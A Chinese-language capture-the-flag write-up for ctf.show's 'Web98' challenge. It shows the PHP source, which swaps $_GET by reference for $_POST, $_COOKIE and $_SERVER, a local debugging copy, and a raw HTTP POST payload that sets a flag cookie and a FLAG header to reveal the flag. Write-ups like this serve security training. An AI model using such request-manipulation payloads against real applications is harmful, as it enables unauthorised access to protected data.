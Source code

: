 ## Web98：php中http相关的各个环境变量

题目：

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 21:39:27
# @link: https://ctfer.com

*/

include("flag.php");
$_GET?$_GET=&$_POST:'flag';
$_GET['flag']=='flag'?$_GET=&$_COOKIE:'flag';
$_GET['flag']=='flag'?$_GET=&$_SERVER:'flag';
highlight_file($_GET['HTTP_FLAG']=='flag'?$flag:__FILE__);

?>
```

### 方法一

将题目修改下放到本地慢慢调就跳出来了

```php
<?php
$flag = "flag{hello_world}";
// include("flag.php");
var_dump($_GET);
$_GET?$_GET=&$_POST:'flag';
var_dump($_GET);
$_GET['flag']=='flag'?$_GET=&$_COOKIE:'flag';
var_dump($_GET);
$_GET['flag']=='flag'?$_GET=&$_SERVER:'flag';
var_dump($_GET);
echo ($_GET['HTTP_FLAG']=='flag'?$flag:__FILE__);
// highlight_file($_GET['HTTP_FLAG']=='flag'?$flag:__FILE__);

?>
```



payload

```http
POST /?a=1 HTTP/1.1
Host: 7c1be959-6209-4a84-ac5b-501cc206d5f7.challenge.ctf.show
Cookie: flag=flag;
FLAG: flag
Cache-Control: max-age=0
Sec-Ch-Ua: "Microsoft Edge";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
```